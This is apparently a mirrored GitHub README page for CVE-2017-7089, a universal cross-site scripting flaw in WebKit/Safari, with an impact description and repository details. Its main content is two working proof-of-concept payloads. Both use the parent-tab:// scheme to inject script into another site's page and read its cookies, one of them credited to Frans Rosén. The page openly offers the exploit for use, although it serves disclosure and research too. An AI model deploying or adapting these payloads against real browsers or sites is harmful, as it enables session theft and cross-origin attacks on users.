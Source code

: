 # CVE-2017-7089

Webkit uxss exploit (CVE-2017-7089)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Bo0oM](https://github.com/Bo0oM) |
| Url      | [https://github.com/Bo0oM/CVE-2017-7089](https://github.com/Bo0oM/CVE-2017-7089)                                               |
| Stars    | 63                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2017-7089

**Impact**: Processing maliciously crafted web content may lead to universal cross site scripting

**Description**: A logic issue existed in the handling of the parent-tab. This issue was addressed with improved state management.

#### Safari 10

##### Local SOP bypass

```html
<script> function Pew(){var doc=open('parent-tab://apple.com');doc.document.body.innerHTML='<img src=q onerror=alert(document.cookie)>';}</script><button onclick=Pew();>Click me!</button>
```
##### Exploit by Frans Rosén
```html
data:text/html,<script>function y(){x=open('parent-tab://google.com','_top'),x.document.body.innerHTML='<img/src=""onerror="alert(document.cookie)">'};setTimeout(y,100)</script>
```



## Get the content

```
git clone https://github.com/Bo0oM/CVE-2017-7089
cd CVE-2017-7089
```

{% embed url="https://github.com/Bo0oM/CVE-2017-7089" %}

<figure><img src="https://avatars.githubusercontent.com/u/3492361?v=4" alt=""><figcaption><p>Bo0oM</p></figcaption></figure>
